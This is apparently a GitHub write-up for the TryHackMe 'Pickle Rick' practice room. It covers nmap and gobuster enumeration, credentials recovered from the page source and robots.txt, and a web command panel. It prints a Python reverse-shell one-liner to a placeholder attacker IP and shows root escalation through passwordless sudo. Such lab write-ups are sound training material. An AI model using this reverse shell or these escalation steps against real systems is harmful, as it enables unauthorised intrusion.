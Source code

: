 # TryHackMe-Pickle-Rick
This is a writeup for Pickle Rick TryHackMe machine!  
https://tryhackme.com/room/picklerick

**REMEMBER TO CHANGE THE ATTACKER MACHINE TO THE ONE TRYHACKME ASSIGNED, MINE IS NOT SAME AS YOURS**

## Scanning & Enumeration

To begin with this machine, we will perform a nmap scan on our target:

```
nmap -sV -sC -T5 10.10.122.153
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 01:01 EDT
Nmap scan report for 10.10.122.153
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 79:d6:1c:ca:5e:5c:3f:14:83:d4:21:07:b1:01:76:c1 (RSA)
|   256 61:2e:22:78:78:b9:d7:7e:c9:77:2d:d3:29:07:07:da (ECDSA)
|_  256 07:64:71:80:17:56:a6:79:61:bd:d4:09:f3:85:15:4d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Service Enumeration
### Port 22 - SSH
### Port 80 - HTTP

Now we'll proceed to visit the website located at port 80
![image_2024-04-26_001448881](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/028603ac-1f72-4fd7-8b5a-83b00aa96054)
This is the first thing we see on the website, if we take a view on the page source we can find this
![image](https://github.com/trynalearnhacking/TryHackMe-Pickle-Rick/assets/86502006/fdf5cb17-fc73-4978-9208-d79a9da3b1ac)
Looks like we found an username, next, we will proceed to find hidden directories that may have been hidden from us
## Directory Fuzzing
## Using Gobuster
**Gobuster** is a tool used to brute-force:
* URIs (directories and files) in web sites.
* DNS subdomains (with wildcard support).
* Virtual Host names on target web servers.
* Open Amazon S3 buckets.
* Open Google Cloud buckets.
* TFTP servers
#### If you wish to install Gobuster, here is the link to the official github repository: https://github.com/OJ/gobuster
```
gobuster dir -u 'http://10.10.122.153/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 --no-error -x php,sh,txt,cgi,html,css,js,py
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.122.153/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,sh,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/.php                 (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1062]
/assets               (Status: 301) [Size: 315] [--> http://10.10.122.153/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
```
This are some directory gobuster could find for us, we could be interested in **/login.php** so we will navigate into it
![image_2024-04-26_003529817](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/bbb9309b-3f13-431f-9c04-31f441a966f2)
We will find a login page, we already have the username but we lack the password, so we can keep with the directory fuzzing
At some point, we will encounter a file called **robots.txt**, most websites will have a robots.txt file which basically tells the sitee what it is allowed and not allowed to index.
If we check the robots.txt file we will encounter some sort of password we can use
![image_2024-04-26_003953275](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/f874ffe2-2943-4d26-991e-d1a19f75a39b)
This could be the password for our **/login.php** so lets try
![image_2024-04-26_004100740](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a0f5cb3e-e8eb-40fd-949e-1416b55078db)
And we were right, it was indeed the password for our **/login.php**
## Command Panel
The site we were redirected has a command panel, so, lets try to execute some simple command to see if it allows us to do so
![image_2024-04-26_004451144](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/9fb45fdf-e904-4727-a731-71c03ef058e0)
And with this, we realize we can actually execute commands, if we try to execute a **cat** in Sup3rS3cretPickl3Ingred.txt, we are disallowed to perform it
![image_2024-04-26_004650641](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/488fe1f4-f619-46bc-a066-36a7ea11114c)
We can read the file if we do this though
```
http://<ip>/Sup3rS3cretPickl3Ingred.txt
```
And like that, we will have the first ingredient

At this point, we could go for two ways on exploiting this machine to get the other ingredientes

## First way
### Getting a reverse shell through command panel
First, we can search the python version with 
```
which python3
which python2
which python
```
We will find this
![image_2024-04-26_005506068](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/00f2e85c-1ce6-4aa0-bb96-c120d5d09188)
Ok, so now we know that python3 is on this machine so lets get a reverse shell using this:
`python3 -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<yourIp>",<listeningPort>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
Before we execute the command we need a netcat set on the port we specified like this

![image_2024-04-26_005931396](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/28f227fb-d676-4c0b-9a7e-5797d115a2bb)

If everything is working right, we will receive a reverse shell on our listening port

![image_2024-04-26_010239772](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/959d6e72-01b1-4c63-a953-ccd4d6226ed5)

We can upgrade this shell using `bash -i`
So, with this shell, we are way more comfortable moving around the machine without needing to use the command panel
Lets search for the other ingredients

![image_2024-04-26_010637175](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/059b7936-ce3a-410b-9197-0cf37deebe78)

If we move to this directory and do a `ls` on it, we will find the second ingredient

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/6fab408b-ff97-424a-ae4e-5d36c30ea34b)

Or we can just ls the directory to see what is inside of it

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a33781a9-c3d7-45c6-9c04-862b6a78352d)

We will find the third ingredient on **/root** but if we try to `cd` on it, we will find we are unable to do it, so lets check for our privileges with `sudo -l`

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/70d7d8f8-d240-4304-9b52-8d068f9c4dcc)

To our surprise, all commands are allowed without any password needed so lets just do a `sudo bash -i` to escalate our session into a root one

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/819bc036-1b5d-4891-8c6c-e4ad6652600c)

And just like that we are user root and now we can read the third ingredient within the /root directory

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a3d4301f-0bae-4b87-a2f4-92da370c1481)

## Second Way

If we decide to take this path, we need to proceed with our command panel we already have in **/portal.php** so, lets begin

If we perform a `ls` on the command panel we can also find a file called **clue.txt**, if we go to the route of this file like we did with the first ingredient we will find this

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/bce2d97a-308d-4494-89d2-9d8e67583a05)

After a while looking around the system we can find the second ingredient at **/home/rick**

As we know, `cat` command is disabled for the command panel, so if we research around internet we find that we can use `less` command to view the content of the file in the next way
`less '/home/rick/second ingredient'`

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/175ef234-c04a-406b-be40-80fc55332fc5)

Like that, we are now able to read the content of the second ingredient, so lets read the content of the third ingredient

Lets use `sudo -l` to see which privileges we have

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/38de0a54-f432-4670-a30e-dccc82807ba9)

And for our surprise we are allowed to perform all commands without the need of any kind of password, lets do a sudo ls /root to check this

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/b6197946-fec0-4e9f-89cc-2954764ee77c)

And like that we were able to find the name of the third ingredient, so if we want to read it, we will just use `less` command in this way 

`sudo less /root/3rd.txt`

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/273ecced-a4c1-4e68-8287-fc97c1ec1b7a)

# And just like that you have completed this room!





